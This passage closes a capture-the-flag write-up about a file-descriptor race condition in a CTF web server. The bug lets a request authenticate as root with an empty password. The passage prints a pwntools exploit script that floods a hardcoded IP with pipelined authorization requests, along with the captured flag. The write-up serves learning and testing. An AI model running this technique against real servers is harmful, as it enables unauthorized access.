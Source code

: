 This flow sent us down a very deep rabbit hole, we wrote a lot of tests and fuzzed the ways we could create our HTTP requests, we also tried using the implementation of the `canonicalize` function with links and directory traversal to slow down parts of the code in hope to achieve success in this race condition flow, it is truly amazing how much you can complicate things when tired.

After a good nights sleep and a pretty bad all night fuzzing script attempt, [@yoavalon](https://twitter.com/yoavalon) came to the bright idea that we can mess up the reading of `"password.txt"` and authenticate with an empty password using the following race condition flow:

1. Send a Non-secret HTTP request
2. Non-secret file is opened (`fd=3`), read and closed once (`fd=3`)
3. Send a request to "/secret/flag.html" with root username and an *empty* password
4. `"password.txt"` is opened and receives the same fd (`fd=3`) as the previous flow
5. The previous flow closes the file again (`fd=3`)
6. `"password.txt"` is read, but the fd is closed, leaving the read string empty.
7. The empty string is compared against the empty password we provided, the server sends us back `flag.html`

## The exploit

```python
from pwn import *
import base64

single_payload =  """GET /secret/flag.html HTTP/1.1
Authorization: Basic {passwd}

GET /secret/flag.html HTTP/1.1
Authorization: Basic {passwd}

GET /secret/flag.html HTTP/1.1
Authorization: Basic {passwd}

GET / HTTP/1.1

""".format(passwd=base64.b64encode(b'root:').decode())

attack_payload = single_payload * 200

def attack(target):
    target.send(attack_payload.encode())
    stdout = target.recv()
    return stdout.decode()

while True:
    # result = attack(process('./vuln'))
    result = attack(remote('78.47.90.92', 80))
    flag = re.findall('hxp{[^}]+}', result)
    if not flag:
        continue

    print(flag[0])
    break

```

hxp{s0rrY_w3_4Re_cL0s3D}

Thank you for reading.

[Source for the challenge, exploit and write for your own pleasure and testing](https://github.com/liadmord/36c3_ctf_sicher)